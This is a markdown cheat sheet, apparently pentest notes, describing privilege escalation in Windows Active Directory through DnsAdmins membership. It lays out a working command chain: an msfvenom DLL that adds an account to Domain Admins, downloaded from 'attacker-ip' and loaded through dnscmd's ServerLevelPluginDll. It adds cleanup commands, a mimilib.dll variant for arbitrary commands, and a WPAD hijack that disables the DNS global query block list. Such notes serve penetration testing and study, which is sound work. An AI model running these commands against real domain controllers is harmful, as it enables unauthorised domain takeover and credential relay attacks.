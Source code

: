 ### **Overview**

- Members of _DnsAdmins_ can control DNS settings, potentially enabling _privilege escalation_.
- Windows DNS service supports _custom DLL plugins_, executed as _NT AUTHORITY\SYSTEM_.
- Attack leverages `dnscmd` to configure a malicious _DLL plugin_ and restart DNS service.

---

### **Attack Summary**

#### **Plugin DLL Injection**

- DNS is managed over _RPC_.
- `ServerLevelPluginDll` registry key can be modified via `dnscmd`.
- DNS service restarts will execute the DLL at this path.

#### **Steps:**

1. **Generate DLL Payload**
    - Tool: `msfvenom`
    - Command:
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

2. **Host DLL**
	- Python HTTP Server:
```bash
python3 -m http.server 7777
```

3. **Transfer DLL to Target**
	- Command:
```powershell
wget "http://attacker-ip:7777/adduser.dll" -outfile "adduser.dll"
```

4. **Modify Registry via dnscmd (DnsAdmins only)**
	- Command:
```cmd
dnscmd.exe /config /serverlevelplugindll C:\Path\To\adduser.dll
```

5. **Restart DNS Service**
	- Check if user has _RPWP_ rights using `sc.exe sdshow DNS`.
	- Stop and start service:
```powershell
sc stop dns
sc start dns
```

6. **Verify Privilege Escalation**
	- Confirm domain admin status:
```powershell
net group "Domain Admins" /domain
```

---

### **Cleanup Steps**

1. **Confirm Malicious Key Exists**
```powershell
reg query \\<IP>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```

2. **Remove ServerLevelPluginDll**
```powershell
reg delete \\<IP>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```

3. Restart DNS Service
```powershell
sc start dns
sc query dns
```

---

### **Alternative: Using mimilib.dll**

- Modify `kdns.c` to include:
```c
system("ENTER COMMAND HERE");
```
- Used to log queries and execute arbitrary commands (e.g., reverse shells).

---

### **Alternative Attack: WPAD Hijack**

#### **1. Disable Global Query Block List**
```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName <DC>
```

2. Add WPAD DNS Record
```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName <DOMAIN> -ComputerName <DC> -IPv4Address <Attacker IP>
```

- Enables spoofing and _SMBRelay attacks_ via WPAD.